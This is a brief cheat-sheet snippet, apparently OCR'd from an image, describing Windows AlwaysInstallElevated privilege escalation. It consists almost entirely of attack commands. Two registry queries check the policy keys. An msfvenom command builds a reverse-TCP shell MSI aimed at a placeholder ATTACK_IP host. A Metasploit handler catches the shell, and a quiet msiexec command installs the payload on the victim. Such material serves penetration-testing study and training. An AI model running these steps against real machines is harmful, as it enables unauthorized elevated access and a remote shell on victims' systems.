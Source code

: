 # Example:

### Query and set 2 registry values:

### reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

### reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

## Exploitation works only if BOTH have set values to 1!

### 1: msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

### 2: Use metasploit handler (use exploit/multi/handler)

### 3: On victim machine: msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
